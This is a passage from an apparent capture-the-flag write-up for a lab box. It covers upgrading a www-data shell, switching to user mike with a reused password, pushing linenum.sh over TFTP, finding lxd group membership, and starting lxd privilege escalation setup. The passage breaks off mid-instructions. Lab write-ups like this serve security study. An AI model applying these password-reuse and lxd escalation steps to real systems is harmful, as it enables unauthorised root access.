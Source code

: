 the www-data account dow not have permissions so we need to try switching to the User Mike. try every knows password from previous servers

su mike
```yaml
$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@included:/$ su mike
su mike
Password: Sheffield19

mike@included:/$ 

```
Next I grabbed the flah in Mikes account and then use the TFTP server to pull over the LINUX Enum script file and run it from mikes account

```yaml
┌──(root💀kali)-[/home/kali/http/enum]
└─# tftp 10.10.10.55
tftp> put linenum.sh
Sent 47983 bytes in 5.2 seconds
tftp> 
```
Now that we have linenum.sh copied over to the tftp folder we move it to the home folder of user mike and then make it executable and finally run it. And find out the Mike is in the lxd group and that can be used for PE

```yaml
[-] Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Aug  5  2019 .
drwxr-xr-x 14 root root 4096 Mar  5  2020 ..


[+] We're a member of the (lxd) group - could possibly misuse these rights!
uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)


### SCAN COMPLETE ####################################
mike@included:~$

#Priv Elevation#

Research lxd and find best thing to do is to follow instructions here on a new box and then copy the files over to finish the exploit.

```yaml
# lxd/lxc Group - Privilege escalation

If you belong to _**lxd**_ **or** _**lxc**_ **group**, you can become root

## Exploiting without internet

### Method

You can install in your machine ( I made a second machine for this) this distro builder: [https://github.com/lxc/distrobuilder ](https://github.com/lxc/distrobuilder)\(follow the instructions of the github\):

```yaml
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
go get -d -v github.com/lxc/distrobuilder
#Make distrobuilder
```
